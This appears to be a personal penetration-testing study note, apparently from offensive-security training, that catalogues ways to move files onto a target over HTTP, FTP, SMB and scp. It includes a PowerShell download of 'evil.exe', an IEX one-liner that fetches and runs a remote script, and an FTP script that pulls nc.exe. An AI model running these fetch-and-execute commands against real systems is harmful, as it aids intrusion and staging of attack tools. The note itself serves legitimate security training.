 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[File Transfers]]  
___

## Description:  

### http
host webpage on Kali
`python3 -m http.server 80`

Get the file with:
```
curl http://192.168.19.55/test.c --output test.c

wget 172.16.0.109/test

Invoke-WebRequest http://10.10.14.45:1234/required_tool -O tool

powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')
```

You can run a powershell script right away with:
```
C:\Users\Offsec> powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
Hello World
```

### FTP server
`sudo python3 -m pyftpdlib -p21 -w`

Or you can setup Pure-FTPd
```
sudo apt update && sudo apt install pure-ftpd

kali@kali:~$ cat ./setup-ftp.sh
#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd


kali@kali:~$ chmod +x setup-ftp.sh
kali@kali:~$ sudo ./setup-ftp.sh
Password:
Enter it again:
Restarting ftp server

```


**Retrieve with Linux
`ftp 10.11.0.4`

**Retrieve with windows
```
C:\Users\offsec> ftp -h

C:\Users\offsec>echo open 10.11.0.4 21> ftp.txt
C:\Users\offsec>echo USER offsec>> ftp.txt
C:\Users\offsec>echo lab>> ftp.txt
C:\Users\offsec>echo bin >> ftp.txt
C:\Users\offsec>echo GET nc.exe >> ftp.txt
C:\Users\offsec>echo bye >> ftp.txt


C:\Users\offsec> ftp -v -n -s:ftp.txt
```

### SMB server
```
On kali:

sudo smbserver.py share `pwd`

On Windows:

net use z: \\10.10.14.10\share

```

### SMB server with samba
```
kali@kali:~$ sudo apt install samba
...
kali@kali:~$ sudo mv /etc/samba/smb.conf /etc/samba/smb.conf.old
kali@kali:~$ sudo nano /etc/samba/smb.conf
```
smb.conf
```
[visualstudio]
path = /home/kali/data
browseable = yes
read only = no
```
create a samba user that can access the share
```
kali@kali:~$ sudo smbpasswd -a kali
New SMB password:
Retype new SMB password:
Added user kali.
kali@kali:~$ sudo systemctl start smbd
kali@kali:~$ sudo systemctl start nmbd
```
create the shared folder and open up the permissions
```
kali@kali:~$ mkdir /home/kali/data
kali@kali:~$ chmod -R 777 /home/kali/data
```
On windows open up file explorer and visit `\\192.168.119.120`. When prompted provide the username and password.
### scp
```
Remote Host to Local (push):
scp username@from_host:file.txt /local/directory/

Local to Remote Host (pull):
scp file.txt username@to_host:/remote/directory/

Use -r for directories

Remote to Remote:
scp username@from_host:/remote/directory/file.txt username@to_host:/remote/directory/
```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (01:18 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>

